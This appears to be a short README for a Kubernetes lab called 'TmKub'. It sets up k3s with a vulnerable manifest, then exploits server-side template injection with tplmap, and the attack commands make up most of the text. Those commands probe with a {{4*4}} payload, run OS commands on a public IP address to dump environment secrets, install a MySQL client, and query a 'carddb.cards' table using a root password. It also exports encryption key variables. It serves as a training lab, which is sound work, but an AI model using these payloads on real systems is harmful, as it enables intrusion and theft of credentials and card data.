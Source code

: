 # TmKub


curl -sfL https://get.k3s.io | sh -

sudo kubectl get nodes

sudo kubectl apply -f template-injection-manifest.yml

sudo watch kubectl get pods

http GET http://localhost:32345/not-found?page={{4*4}}

python tplmap.py -u 'http://185.235.43.38:32345/not-found?page=user.html' --os-cmd 'printenv'

python tplmap.py -u 'http://185.235.43.38:32345/not-found?page=user.html' --os-cmd 'printenv|grep MYSQL'

python tplmap.py -u 'http://185.235.43.38:32345/not-found?page=user.html' --os-cmd 'apk update && apk add mysql-client'

python tplmap.py -u 'http://185.235.43.38:32345/not-found?page=user.html' --os-cmd 'mysql -u root --password=S3cr3tPa55w0rd -e "show tables from carddb;"'

python tplmap.py -u 'http://185.235.43.38:32345/not-found?page=user.html' --os-cmd 'mysql -u root --password=S3cr3tPa55w0rd -e "select * from carddb.cards;"'


Advance Exploit :

export SALT=<environment-SALT-value>Copy
  
export ENC_KEY=<environment-ENC_KEY-value>

sudo kubectl delete -f template-injection-manifest.yml
